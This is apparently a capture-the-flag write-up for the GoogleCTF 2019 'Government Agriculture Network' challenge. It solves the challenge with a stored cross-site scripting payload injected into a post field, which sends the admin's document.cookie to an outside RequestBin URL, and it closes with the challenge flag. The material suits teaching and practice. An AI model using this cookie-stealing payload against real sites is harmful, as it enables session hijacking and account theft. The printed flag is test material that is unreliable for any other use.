


GoogleCTF Beginner's Quest 2019 - Government Agriculture Network
Description
Well it seems someone can’t keep their work life and their home life separate. You vaguely recall on your home planet, posters put up everywhere that said “Loose Zips sink large commercial properties with a responsibility to the shareholders.” You wonder if there is a similar concept here.
Using the credentials to access this so-called Agricultural network, you realize that SarahH was just hired as a vendor or contract worker and given access that was equivalent. You can only assume that Vendor/Contractor is the highest possible rank bestowed upon only the most revered and well regarded individuals of the land and expect information and access to flow like the Xenovian acid streams you used to bathe in as a child.
The portal picture displays that small very attractive individual whom you instantly form a bond with, despite not knowing. You must meet this entity! Converse and convince them you’re meant to be! After a brief amount of time the picture shifts into a biped presumably ingesting this creature! HOW DARE THEY. You have to save them, you have to stop this from happening. Get more information about this Gubberment thing and stop this atrocity.
You need to get in closer to save them - you beat on the window, but you need access to the cauliflower’s host to rescue it.
Solving
Let’s have a look at https://govagriculture.web.ctfcompetition.com/:

At least we won’t get lost on that website, there’s only one page!
The admin link in the top-right hand corner returns a 303 HTTP code and returns the same page.
So, let’s explore the only thing there is on that page! The lady eating cauliflowers! Oops, I meant the Create a new post text field :D If we submit a text, then we obtain the following message:
Hum, so, we can submit stuff and the admin will come take a look at it? That’s interesting! What if the admin has a special cookie or HTTP header?
Let’s try to trick the admin… IE, let’s go for a stored XSS attack!
To do so, we can profit from the awesome requestbin:
RequestBin gives you a URL that will collect requests made to it and let you inspect them in a human-friendly way. Use RequestBin to see what your HTTP client is sending or to inspect and debug webhook requests.
Hit the Create a new RequestBin button to obtain a Bin URL, for example: http://requestbin.net/r/1ktoe8l1. Now, every time something/someone reach that URL, it will be displayed.
Test the RequestBin by running:
$ curl -X POST -d "yo=lo" http://requestbin.net/r/1ktoe8l1
Refresh the RequestBin page to inspect the details of the HTTP request you made:

Next, we need to hide this URL on the Ministry of Agriculture’s website so that the admin visits it. One technique is to use Javascript code which generates the HTML code for an image:
<script>document.write('<img src=\"\"');</script>
Okay, great, but how does this help us trick the admin into visiting the requestbin? The RequestBin URL can be used as the source of the image!
<script>document.write('<img src=\"http://requestbin.net/r/1ktoe8l1\"');</script>
But you talked about cookies earlier?!
Cookies can be accessed with document.cookie and pass them as a parameter to the RequestBin URL to retrieve them:
<script>document.write('<img src=\"http://requestbin.net/r/1ktoe8l1?meeatcookies='+document.cookie+'\"');</script>
Now, paste that evil Javascript into the text field and refresh the RequestBin!
Flag: CTF{8aaa2f34b392b415601804c2f5f0f24e}